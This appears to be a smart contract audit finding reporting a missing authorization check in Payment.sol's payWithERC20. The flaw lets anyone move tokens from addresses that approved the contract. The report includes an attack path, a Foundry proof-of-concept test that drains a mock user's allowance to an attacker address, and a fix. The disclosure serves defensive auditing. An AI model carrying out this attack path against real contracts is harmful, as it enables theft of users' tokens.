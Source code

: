 Itchy Cherry Boa

High

# Lack Of Authorization in Payment.sol::payWithERC20 Can Lead To Unauthorized Token Transfers

### Summary

A lack of authorization in the function `Payment.sol::payWithERC20` can lead to unauthorized token transfers from a user as an attacker can initiate token transfers from approved addresses to their own addresses. https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Payment.sol#L25-L32
Even though comment says to support gasless flow, function still allows attacker to initiate transfer without authorization from users.
### Root Cause

In `Payment.sol::payWithERC20` there is no verification to check if the caller `msg.sender` is authorized to act on behalf of the `fromAddress` to transfer tokens to another address.

### Internal Pre-conditions

For the attack to succeed, the token holder must have previously called `approve` on the ERC20 token contract, granting the `Payment.sol` contract an allowance to spend a certain amount of their tokens

### External Pre-conditions

The attack assumes the ERC20 token contract follows the standard `safeTransferFrom` implementation (as provided by OpenZeppelin's SafeERC20), which transfers tokens if the caller has sufficient allowance, without imposing additional checks like requiring the caller to be the token owner.

### Attack Path

1. Identify a Target: The attacker monitors the blockchain for addresses that have approved the `Payment` contract to spend their ERC20 tokens. This information is publicly available via the ERC20 `allowance` function, which reveals how many tokens the contract can spend on behalf of a token holder.
2. Prepare the Exploit: The attacker constructs a transaction to call `payWithERC20` on the `Payment` contract. They specify:
`erc20TokenAddress`: The address of the ERC20 token contract (e.g., a mock token used in testing).
amount: The number of tokens to transfer, up to the approved allowance (e.g., 500 tokens).
`fromAddress`: The token holder’s address that has granted the approval.
`toAddress`: The attacker’s own address (or any address they control) to receive the tokens.
3.Execute the Call: The attacker sends the transaction to the network. Since `payWithERC20` is public and lacks a check like `require(msg.sender == fromAddress)`, the call proceeds without verifying the caller’s identity. The function invokes `safeTransferFrom` on the ERC20 token contract, which checks:
If the `Payment` contract has an allowance from `fromAddress` (met due to the internal precondition).
If the `amount` is within the allowance and the token holder’s balance. Assuming these conditions are met, `safeTransferFrom` transfers the tokens from `fromAddress` to `toAddress`.

### Impact

High risk of financial loss by token holder

### PoC

 The following test was written in foundry to verify that the attacker can transfer to other addresses without authorization from the user.

```Solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;


import {MockERC20} from "./MockERC20.sol";
import {Payment} from "../src/Payment.sol";
import {Vm} from "forge-std/Vm.sol";
import {Test} from "forge-std/Test.sol";

    
contract PaymentTest is Test {
    
    Payment public paymentContract;
    MockERC20 public token;

    address public user;
    address public attacker;

    function setUp() public {
        // Deploy token
        token = new MockERC20();
        // Deploy payment contract
        paymentContract = new Payment();
        // Set up user and attacker
        user = vm.addr(1);
        attacker = vm.addr(2);
        // Mint tokens to user
        token.mint(user, 1000);
        // User approves payment contract to spend 500 tokens
        vm.prank(user);
        token.approve(address(paymentContract), 500);
    }

    function testUnauthorisedTransfer() public {
        // Check initial balances
        assertEq(token.balanceOf(user), 1000);
        assertEq(token.balanceOf(attacker), 0);

        // Attacker attempts unauthorized transfer
        vm.prank(attacker);
        paymentContract.payWithERC20(address(token), 500, user, attacker);

        // Check final balances
        assertEq(token.balanceOf(user), 500);
        assertEq(token.balanceOf(attacker), 500);
    }
}
```

### Mitigation

Add authorization checks  
```Solidity

//@audit --> The require statement below checks if the caller is the same as the fromAddress
        require(msg.sender == fromAddress, "Invalid from address");

```